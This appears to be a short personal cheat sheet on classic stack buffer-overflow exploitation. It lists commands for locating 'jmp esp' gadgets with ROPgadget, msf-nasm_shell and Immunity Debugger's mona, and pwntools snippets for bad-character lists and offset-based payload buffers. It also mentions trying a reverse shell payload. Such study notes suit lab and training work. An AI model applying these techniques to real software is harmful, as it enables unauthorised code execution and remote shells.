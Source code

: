 # simple binary exploits

## jmp esp instruction FF E4
```bash
msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
```

### find with ROPgadget
```bash
ROPgadget --binary VulnApp1.exe | grep 'jmp esp'
```

## python exploit scripts

### import pwntools
```python
from pwn import *
```

### all bad characters
```python
knownBadChars = b"\x00\x0a\x0d"
allBadChars = bytes( [r for r in range(256) if r not in knownBadChars])
```

### pwntools flat pack buffer offsets
example at offset 500 in buffer
```python
payload = flat({
    500: JMP_ESP,
    504: buf
})
```

## payload generation

### changing architecture
exe runing on linux with wine -> try linux reverse shell payload

# immunity debugger mona commands

## list loaded modules and security flags
```
!mona modules
```

## search for opcode string jmp esp

### in exe
```
!mona jmp -r esp -cpb "<BAD_CHARS>"
```

### inside module
```
!mona find -s "\xFF\xE4" -m ModuleName.exe
!mona find -s "\xFF\xE4" -m ModuleName.dll
```

